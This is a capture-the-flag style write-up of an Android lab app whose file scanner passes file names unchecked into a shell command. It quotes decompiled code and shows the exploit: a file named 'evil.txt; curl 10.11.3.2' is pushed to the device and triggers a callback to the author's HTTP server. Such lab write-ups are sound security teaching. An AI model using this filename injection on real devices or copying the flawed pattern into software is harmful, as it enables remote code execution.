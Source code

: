 ```yaml
---
author: pl4int3xt
layout: post
title: Lab - Cyclic Scanner
date: '2024-07-04'
description: "Welcome to the Cyclic Scanner Challenge! This lab is designed to mimic real-world scenarios where vulnerabilities within Android services lead to exploitable situations. Participants will have the opportunity to exploit these vulnerabilities to achieve remote code execution (RCE) on an Android device."
# cover: featured.png 
useRelativeCover: true
categories: [Mobile Hacking Lab]
---
```


## Introduction
Welcome to the Cyclic Scanner Challenge! This lab is designed to mimic real-world scenarios where vulnerabilities within Android services lead to exploitable situations. Participants will have the opportunity to exploit these vulnerabilities to achieve remote code execution (RCE) on an Android device.
## Objective
* Exploit a vulnerability inherent within an Android service to achieve remote code execution.

## Skills Required

* Mastery in reverse engineering Android applications.
* In-depth understanding of Android application architecture, especially Android services, and their inherent vulnerabilities.


The app uses a switch to start the scanner which is a foreground service

![img-description](1.png)

Let's download vpn file and use adb to connect to the lab

```shell
pl4int3xt@archlinux ~> adb connect 10.11.1.1:5001 
connected to 10.11.1.1:5001
```

Let's locate the third party apps installed with adb 

```shell
pl4int3xt@archlinux ~> adb shell pm list packages -3
package:com.mobilehackinglab.cyclicscanner
```

Let's get the path of the cyclicscanner app

```shell
pl4int3xt@archlinux ~> adb shell pm path com.mobilehackinglab.cyclicscanner
package:/data/app/~~qM4I86KbSswb6BplSzhL0A==/com.mobilehackinglab.cyclicscanner-rtyKTMCcoKLT7WV1i1hWWA==/base.apk
```

Let's pull the app for static analysis with jadxgui

```shell
pl4int3xt@archlinux ~/D/mobile-hacking> adb pull /data/app/~~qM4I86KbSswb6BplSzhL0A==/com.mobilehackinglab.cyclicscanner-rtyKTMCcoKLT7WV1i1hWWA==/base.apk
```

In the `AndroidManfest.xml` file the `MainActivity` is exported and we have a `ScanService` which is not exported.

```xml
<activity
    android:name="com.mobilehackinglab.cyclicscanner.MainActivity"
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
</activity>
<service
    android:name="com.mobilehackinglab.cyclicscanner.scanner.ScanService"
    android:exported="false"/>
```

The application also needs external storage permissions for reading and writing files across shared storage and a foreground service permission which perform operations that are noticeable to the user and must display a notification to the user.

```xml
<uses-permission android:name="android.permission.MANAGE_EXTERNAL_STORAGE"/>
<uses-permission android:name="android.permission.FOREGROUND_SERVICE"/>
```

In the `MainActivity` we have `setupSwitch` function that uses the switch to start `ScanService.class` using an `Intent`.

```java
public static final void setupSwitch$lambda$3(MainActivity this$0, CompoundButton compoundButton, boolean isChecked) {
    Intrinsics.checkNotNullParameter(this$0, "this$0");
    if (isChecked) {
        Toast.makeText(this$0, "Scan service started, your device will be scanned regularly.", 0).show();
        this$0.startForegroundService(new Intent(this$0, (Class<?>) ScanService.class));
        return;
    }
    Toast.makeText(this$0, "Scan service cannot be stopped, this is for your own safety!", 0).show();
    ActivityMainBinding activityMainBinding = this$0.binding;
    if (activityMainBinding == null) {
        Intrinsics.throwUninitializedPropertyAccessException("binding");
        activityMainBinding = null;
    }
    activityMainBinding.serviceSwitch.setChecked(true);
}

private final void startService() {
    Toast.makeText(this, "Scan service started", 0).show();
    startForegroundService(new Intent(this, (Class<?>) ScanService.class));
}
```

Further analyzing the `ScanService` class the `handleMessage` function will tranverse through all files and call `ScanEngine.INSTANCE.scanFile(file)` to check is the files are infected or safe.

```java
@Override // android.os.Handler
public void handleMessage(Message msg) {
    Intrinsics.checkNotNullParameter(msg, "msg");
    try {
        System.out.println((Object) "starting file scan...");
        File externalStorageDirectory = Environment.getExternalStorageDirectory();
        Intrinsics.checkNotNullExpressionValue(externalStorageDirectory, "getExternalStorageDirectory(...)");
        Sequence $this$forEach$iv = FilesKt.walk$default(externalStorageDirectory, null, 1, null);
        for (Object element$iv : $this$forEach$iv) {
            File file = (File) element$iv;
            if (file.canRead() && file.isFile()) {
                System.out.print((Object) (file.getAbsolutePath() + "..."));
                boolean safe = ScanEngine.INSTANCE.scanFile(file);
                System.out.println((Object) (safe ? "SAFE" : "INFECTED"));
            }
        }
        System.out.println((Object) "finished file scan!");
    } catch (InterruptedException e) {
        Thread.currentThread().interrupt();
    }
    Message $this$handleMessage_u24lambda_u241 = obtainMessage();
    $this$handleMessage_u24lambda_u241.arg1 = msg.arg1;
    sendMessageDelayed($this$handleMessage_u24lambda_u241, ScanService.SCAN_INTERVAL);
}
```

Looking at the `ScanEngine` class we analyze the `scanFile` that takes in a `file` as a parameter. The file name is directly concatenated to the `command` variable without any checks `String command = "toybox sha1sum " + file.getAbsolutePath()`. This is a `command injection` flaw. All we need to do is to create a file with a command name as the filename. 

```java
public final boolean scanFile(File file) {
    Intrinsics.checkNotNullParameter(file, "file");
    try {
        String command = "toybox sha1sum " + file.getAbsolutePath();
        Process process = new ProcessBuilder(new String[0]).command("sh", "-c", command).directory(Environment.getExternalStorageDirectory()).redirectErrorStream(true).start();
        InputStream inputStream = process.getInputStream();
        Intrinsics.checkNotNullExpressionValue(inputStream, "getInputStream(...)");
        Reader inputStreamReader = new InputStreamReader(inputStream, Charsets.UTF_8);
        BufferedReader bufferedReader = inputStreamReader instanceof BufferedReader ? (BufferedReader) inputStreamReader : new BufferedReader(inputStreamReader, 8192);
        try {
            BufferedReader reader = bufferedReader;
            String output = reader.readLine();
            Intrinsics.checkNotNull(output);
            Object fileHash = StringsKt.substringBefore$default(output, "  ", (String) null, 2, (Object) null);
            Unit unit = Unit.INSTANCE;
            Closeable.closeFinally(bufferedReader, null);
            return !ScanEngine.KNOWN_MALWARE_SAMPLES.containsValue(fileHash);
        } finally {
        }
    } catch (Exception e) {
        e.printStackTrace();
        return false;
    }
}
```

Let's start a python server 
```shell
pl4int3xt@archlinux ~/D/mobile-hacking [1]> sudo python -m http.server 80
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:80/) ...
```

Let's check our ip with the following command

```shell
pl4int3xt@archlinux ~/D/mobile-hacking> ip a s tap0
```

Next we need to create a file and name it `evil.txt; curl 10.11.3.2` with our `tap0` ip.

Let's create the file in our machine

```shell
pl4int3xt@archlinux ~/D/mobile-hacking> touch "evil.txt; curl 10.11.3.2"
```

Next we need to push it in the device storage

```shell
pl4int3xt@archlinux ~/D/mobile-hacking> adb push "evil.txt; curl 10.11.3.2" /storage/emulated/0/
```

Launching the scanner app we get this meaning the command injection worked successfully

```shell
10.11.3.2 - - [03/Jul/2024 14:33:18] "GET / HTTP/1.1" 200 -
```

